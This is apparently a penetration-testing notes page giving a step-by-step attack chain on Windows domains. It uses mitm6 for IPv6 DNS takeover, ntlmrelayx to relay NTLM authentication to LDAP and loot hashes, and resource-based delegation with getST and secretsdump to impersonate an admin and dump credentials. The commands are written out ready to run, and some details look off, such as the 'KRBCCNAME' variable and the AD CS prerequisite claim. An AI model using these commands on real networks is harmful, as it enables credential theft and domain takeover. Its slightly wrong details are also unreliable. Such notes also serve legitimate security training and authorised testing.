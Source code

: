 # DNS Takeover / LDAP Relay

## IPv6 DNS Takeover

ipv6 is setup by default on all windows machines in a network even if the network doesnt utilize v6 so no one is doing dns resolotion for v6 .an attacker can setup a fake dns server and resolve all ipv6 requests in a network and forward them to the DC so we can sniff the authentication and hashs on the way with a tool like MitM6.

{% hint style="info" %}
For DNS takeover to work, the AD CS role must be installed and configured on the domain controller.
{% endhint %}

we run mitm6 on the domain use -i to specify the interface.

```
python mitm6.py -i vboxnet0 -d megacorp.local
```

&#x20;leave the terminal open, for now we are playing the role of an IPv6 DNS server in the network.

## LDAP Relay

we use ntlmrelayx.py script from impacket tools to relay the credentials when a client requests for IPv6 resources.

```
ntlmrelayx.py -6  -t ldaps://[DC address] -wh fakewpad.megacorp.local -l lootme
```

**lootme :** the directory to save the hashes

#### we could use ldap instead of ldaps for LDAP without a certification but most domains use this feature. ipv6 is going to ask for dns every 30 minutes or after restarting the machine.

#### ntlmrelayx.py might not show the success message in the terminal just check the lootme directory.

![](<../../../.gitbook/assets/image (210).png>)

![](<../../../.gitbook/assets/image (207).png>)

#### we can open up the results with firefox

## NTLM Relay + Kerberos Delegation

similarly we can use these commands to target WPAD and grab NTLM hashes:

```
# take over DNS with mitm6
sudo mitm6 -hw icorp-w10 -d internal.corp --ignore-nofqdn


# receive connection, create a computer and grant delegation rights
impacket-ntlmrelayx -t ldaps://192.168.56.115 -wh attacker-wpad --delegate-access


# use impacket getST.py to obtain kerberos ticket
getST.py -spn cifs/icorp-w10.internal.corp internal.corp/RDPOF\$ -impersonate admin


# now with this ticket you can do whatever you want
# for example dumping hashes
export KRBCCNAME=admin.ccache
secretsdump.py -k -no-pass icorp-w10.internal.corp
```





